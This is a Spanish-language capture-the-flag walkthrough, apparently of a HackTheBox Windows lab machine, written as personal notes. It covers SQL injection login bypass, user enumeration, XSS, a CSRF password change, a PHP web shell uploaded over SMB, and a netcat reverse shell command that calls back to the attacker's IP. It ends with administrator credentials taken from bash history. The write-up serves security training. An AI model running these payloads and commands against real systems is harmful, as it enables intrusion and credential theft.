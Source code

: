 Haremos el reconocimiento con nmap como siempre, donde encontramos el puerto 80, 445 y 8808:
![[Mis apuntes/ANEXOS/Pasted image 20230210125701.png]]
Como vemos que tiene abierto el puerto 445 y es una máquina Windows, podemos inspeccionarlo con crackmapexec y vemos que se trata de un Windows 10 Enterprise: [[Crackmapexec#Detectar dominio y hostname con crackmapexec]]
![[Mis apuntes/ANEXOS/Pasted image 20230210125936.png]]
Y ahora con smbclient probamos en listar recursos compartidos haciendo uso de un null session, pero no encuentra nada:
![[Mis apuntes/ANEXOS/Pasted image 20230210130019.png]]
En cuanto al puerto 80, vamos a ver con whatweb las características de la web:
![[Mis apuntes/ANEXOS/Pasted image 20230210130914.png]]
Ahora vamos a acceder a la web:
![[Mis apuntes/ANEXOS/Pasted image 20230210131345.png]]
Y si probamos en registrarnos como el usuario 'or 1=1-- - veremos que esta web es vulnerable a una SQL injection:
![[Mis apuntes/ANEXOS/Pasted image 20230213120456.png]]
Iniciamos sesión con el usuario 'or 1=1-- - y accedemos a todas las notas:
![[Mis apuntes/ANEXOS/Pasted image 20230213120525.png]]
Pero vamos a hacerlo de otra forma para aprender, ya que también podemos hacer un ataque de diccionario con wfuzz para probar muchos posibles usuarios dentro de un panel de login, por ejemplo en una web donde si pongo un usuario, me dice si existe o no en el sistema como en este caso:
![[Mis apuntes/ANEXOS/Pasted image 20230210132724.png]]
Por tanto yo puedo probar con muchos usuarios a ver si en alguno me dice que sí existe este usuario, por lo que primero obtendremos el diccionario donde figuran muchos posibles usuarios:
![[Mis apuntes/ANEXOS/Pasted image 20230210132919.png]]
Por tanto utilizando este diccionario, con WFUZZ podemos hacer estas comprobación de esta forma:[[Wfuzz]]
![[Mis apuntes/ANEXOS/Pasted image 20230210133127.png]]
Pero así lo que ocurre es que me muestra cada uno de los intentos:
![[Mis apuntes/ANEXOS/Pasted image 20230210133435.png]]
Por lo que con wfuzz, podemos decir que siempre y cuando el mensaje de error de la web sea el mismo, que no lo muestre; y que sólo nos muestre el usuario que genera un mensaje diferente en la web; usando el parámetro --hs: [[Wfuzz#FUERZA BRUTA PANEL DE LOGIN CON WFUZZ]]
![[Mis apuntes/ANEXOS/Pasted image 20230210133523.png]]
Y nos encuentra el usuario Tyler:
![[Mis apuntes/ANEXOS/Pasted image 20230210133537.png]]
Y ahora si probamos en poner el usuario Tyler vemos que nos muestra que sí existe:
![[Mis apuntes/ANEXOS/Pasted image 20230210133919.png]]
No obstante en esta web vamos a probar en registrarnos y en acceder:
![[Mis apuntes/ANEXOS/Pasted image 20230210134040.png]]
Por tanto vamos a probar en crear una nota:
![[Mis apuntes/ANEXOS/Pasted image 20230210134124.png]]
Y al crear la nota vamos a probar en ver si esta web es vulnerable a cross site scripting (XSS):
![[Mis apuntes/ANEXOS/Pasted image 20230210134212.png]]
Y vemos que al guardar la nota se nos genera una ventana, indicando que esta web es vulnerable a XSS ya que nos ejecutó el código que inyectamos:
![[Mis apuntes/ANEXOS/Pasted image 20230210134249.png]]
También podríamos verlo con una etiqueta HTML:
![[Mis apuntes/ANEXOS/Pasted image 20230210134348.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230210134358.png]]
En este punto lo que podemos hacer es cambiar la contraseña del usuario Tyler aprovechándonos de la vulnerabilidad CSRF (Cross-site request forgery); y para ello debemos ver cómo se tramita la petición donde se puede cambiar la contraseña, por lo que vamos al menú de cambiar contraseña:
![[Mis apuntes/ANEXOS/Pasted image 20230213120811.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230213103425.png]]
Interceptamos este cambio de contraseña con burp suite para ver cómo se tramita la petición:
![[Mis apuntes/ANEXOS/Pasted image 20230213103456.png]]
Y para poder ver la petición donde cambiamos la contraseña en texto plano, cambiaremos esta petición a GET:
![[Mis apuntes/ANEXOS/Pasted image 20230213103536.png]]
Y ahora ya vemos la petición con las credenciales:
![[Mis apuntes/ANEXOS/Pasted image 20230213103612.png]]
Enviamos la petición dentro de la barra de navegación y vemos que se cambia la contraseña de nuestro usuario
![[Mis apuntes/ANEXOS/Pasted image 20230213103933.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230213103840.png]]
Por tanto vemos que esta dirección es la que cambia una contraseña:
![[Mis apuntes/ANEXOS/Pasted image 20230213103809.png]]
Llegados a este punto, si conseguimos que el usuario Tyler ejecute esta dirección, podremos cambiarle su contraseña, por lo que lo haremos dentro de la parte de contact us:
![[Mis apuntes/ANEXOS/Pasted image 20230213104030.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230213104101.png]]
Y ahora si el usuario Tyler le hubiera hecho clic en ese enlace, se le habría cambiado su contraseña por la de 123123, por tanto vamos a probar en iniciar sesión con el usuario Tyler y con esta credencial, donde veremos que ha funcionado:
![[Mis apuntes/ANEXOS/Pasted image 20230213104225.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230213104236.png]]
Y en esta parte vemos una contraseña:
![[Mis apuntes/ANEXOS/Pasted image 20230213104422.png]]
Ya tenemos el usuario Tyler y la contraseña, por lo que vamos a validar que sean correctas con crakmapexec:
![[Mis apuntes/ANEXOS/Pasted image 20230213104729.png]]
Y con smbmap veremos los recursos compartidos a nivel de red:
![[Mis apuntes/ANEXOS/Pasted image 20230213104857.png]]
No obstante, con smbclient también podemos acceder al interior de un recurso compartido, por ejemplo de new-site, donde tenemos permisos de lectura y escritura: [[SMBclient#EJECUTAR COMANDOS CON SMBCLIENT]]
```bash
smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site
```
![[Mis apuntes/ANEXOS/Pasted image 20230213105508.png]]
Y en este recurso compartido vamos primero a subir un código php malicioso, ya que la máquina vemos que funciona con php:[[0 - Consideraciones Previas#Código PHP malicioso para ganar Reverse Shell]]
![[Mis apuntes/ANEXOS/Pasted image 20230213110730.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230213110749.png]]
Y ahora, dentro del puerto 8808, donde vemos que funciona con IIS (ya que lo vimos en el reporte de nmap), podemos intuir que si por este puerto intentamos acceder al cmd de php que acabamos de subir, tendremos ejecución remota de comandos:
![[Mis apuntes/ANEXOS/Pasted image 20230213111331.png]]
Ahora vamos a compartir el binario de netcat y nos ganamos la reverse shell:
![[Mis apuntes/ANEXOS/Pasted image 20230213111746.png]]
Y ahora con burpsuite podemos urlencodear el comando curl para que se baje el binario de netcat:
![[Mis apuntes/ANEXOS/Pasted image 20230213111951.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230213112004.png]]
Compartimos el nv64.exe con la víctima:
![[Pasted image 20240127100712.png]]
Ahora que está todo listo, nos ponemos en escucha con netcat:
![[Mis apuntes/ANEXOS/Pasted image 20230213112057.png]]
Y desde el navegador, ejecutamos el comando donde llamamos al binario de netcat y nos enviamos la reverse shell por el puerto 443:
```bash
http://10.10.10.97:8808/cmd.php?cmd=nc64.exe 10.10.16.10 443 -e cmd.exe
```
![[Mis apuntes/ANEXOS/Pasted image 20230213112411.png]]
![[Pasted image 20240127100930.png]]
Y dentro del directorio de Tyler ya encontramos la flag de user.txt:
![[Mis apuntes/ANEXOS/Pasted image 20230213112544.png]]
Y dentro de la carpeta de Tyler vemos un acceso directo a un bash:
![[Mis apuntes/ANEXOS/Pasted image 20230213112921.png]]
Si hacemos un type para ver el contenido del fichero, vemos algo de bash.exe:
![[Pasted image 20240127101027.png]]
Pero dentro de esto, nos encontramos con una ruta donde se encuentra un ejecutable de bash.exe, lo que nos hace pensar que en este sistema corre un subsistema de linux:
![[Mis apuntes/ANEXOS/Pasted image 20230213113425.png]]
Por tanto vamos a ejecutar esto y nos devuelve una consola de Linux como root:
![[Pasted image 20240127101121.png]]
Adquirimos un prompt:
![[Mis apuntes/ANEXOS/Pasted image 20230213113543.png]]
En este subsistema, nos encontramos con el histórico de bash con el archivo .bash_history:
![[Mis apuntes/ANEXOS/Pasted image 20230213113804.png]]
Por lo que vamos a inspeccionarlo para ver los comandos que se ejecutaron en esta parte, donde nos encontramos con las credenciales del usuario administrador:
![[Pasted image 20240127101157.png]]
Por tanto ahora ejecutamos ese comando de smbclient con las credenciales del usuario administrador:
```bash
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
```
![[Pasted image 20240127101241.png]]
Y vamos al directorio del usuario Administrator y descargamos la flag de root con el comando get root.txt:
![[Pasted image 20240127101406.png]]
Y ahora en nuestra máquina local ya tenemos la flag de root:
![[Pasted image 20240127101327.png]]
Y ahora si queremos entrar dentro de la máquina usando una shell, tenemos que usar winexe, pudiéndonos conectar a la máquina víctima mediante SMB:
```bash
winexe -U '.\administrator%u6!4ZwgwOM#^OBf#Nwnh' //10.10.10.97 cmd.exe
```
![[Pasted image 20240127102015.png]]